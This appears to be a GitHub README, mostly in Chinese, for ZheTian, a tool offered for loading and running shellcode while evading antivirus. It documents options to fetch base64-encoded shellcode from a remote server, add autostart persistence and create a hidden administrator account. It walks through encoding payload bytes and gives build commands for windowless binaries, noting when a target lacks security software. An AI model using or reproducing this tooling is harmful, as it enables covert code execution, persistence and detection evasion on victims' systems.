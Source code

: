 ![my-logo.png](https://raw.githubusercontent.com/yqcs/ZheTian/master/images/logo.png "my-logo")

# [ZheTian](https://github.com/yqcs/ZheTian/)

## ZheTian Powerful remote load and execute ShellCode tool，免杀shellcode加载框架

### 命令详解

> -u  string：从远程服务器加载base64混淆后的字节码。
>
> -r string：从本地文件内读。
>
> -s string：读取无修改的原始文件，只能从本地加载。
>
>-m boolean：参数为true自动向启动项添加自启模块。
>
>-o boolean：向userHome\tmp目录输出一次性可执行文件，体积比主程序小了五六倍，同理砍去了其他功能，只保留了ShellCode Loader
>
>-n string：向管理员组创建用户，-n的参数即为账户，-p的参数为密码。需以管理员身份运行
>
>-c string：直接从命令行获取base64字符串。如：ZheTian -c ZmM0ODgzZTRmMGU4Yzg4YjUyMjA4YjQyM2M==...
>

## `·`如果releases里下载的可执行程序被安全软件查杀了，请下载源码重新编译一份！`·`

## 新增命令-o详解：

> 该命令主要是向用户目录下创建tmp文件夹，然后生产只包含shellcode的程序，体积小了五六倍，极致压缩，并且无任何回显。由于ShellCode写死在了程序内，所以导致用一段时间就会被查杀。
>
> 注意使用该命令需填充shellcode，同时拥有go环境。搭配-s、-u、-c、-r其中的任意命令即可，如：ZheTian -s payload.c -o true

## 示例：

### Base64字符串方式加载：

原始python代码：
> buf = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x75..."

只需提取数组中的16进制代码：
> \xfc\x48\x83\xe4\xf0\xe8\xc8\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x75...
>
然后去除\x，得到：
> fc4883e4f0e8c88b52208b423c4801d0668178180b0275......
>
然后使用base64转码，得到：
> ZmM0ODgzZTRmMGU4Yzg4YjUyMjA4YjQyM2M0ODAxZDA2NjgxNzgxODBiMDI3NQ==
>
c、ruby等同理，Java之流的则是去除  ", 0x"。注意，是逗号空格0x
> byte buf[] = new byte[] { 0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc8, 0x00, 0x00, 0x00, 0x41};
>

获取到base64字符串之后可以选择放到远程服务器加载，使用-u 命令即可。也可以放到本地文件内，或者直接使用-c命令以命令行方式运行。如：ZheTian.exe -c
ZmM0ODgzZTRmMGU4Yzg4YjUyMjA4YjQyM2M0ODAxZDA2NjgxNzgxODBiMDI3NQ==

### 原文件读取类型：

使用 `ZheTian -h `命令可查看支持的语言。推荐使用Java、py、C语言。原文件无需进行任何修改即可直接加载，但是不支持放在远程服务器，只能通过本地 -s
命令读取，如： `ZheTian -s C:/Windows/Temp/payload.java`

### 图示操作过程

先生成64位shellcode

![my-logo.png](https://github.com/yqcs/ZheTian/blob/master/images/payload.jpg "my-logo")

然后根据需要的命令进行修改
![my-logo.png](https://raw.githubusercontent.com/yqcs/ZheTian/master/images/payload.png "my-logo")

下面执行示例：
![my-logo.png](https://github.com/yqcs/ZheTian/blob/master/images/c.png "my-logo")

### 编译：

> go build -ldflags "-w -s" -o ZheTian.exe

可以使用
> go build -ldflags "-w -s -H windowsgui" -o ZheTian.exe

实现无窗口运行。但是360偶尔会识别为恶意程序。如果目标机器无安全设备，可以尝试使用此命令打包，然后使用参数： ` -o true` 实现写入启动项功能。

#### 带图标编译：

> 先执行：go get github.com/akavel/rsrc
>
> rsrc -manifest ZheTian.manifest -ico favicon.ico -o ZheTian.syso
>
>再执行go build -ldflags "-w -s" -o ZheTian.exe
>
> 更多介绍：https://blog.csdn.net/qq_38376348/article/details/108318880
>
![my-logo.png](https://raw.githubusercontent.com/yqcs/ZheTian/master/images/1.png "my-logo")

### 注意：打包的时候需指定是64位还是32位。默认会根据系统自动选择。 而在生成payload shellcode的时候也需要选择正确的位数，否则会加载失败。使用code字节码加载时一定要使用base64加密，否则无法解析！！

## 有问题可以提Issues，也可加微信联系

![my-logo.png](https://raw.githubusercontent.com/yqcs/ZheTian/master/images/wx.jpg "my-logo")
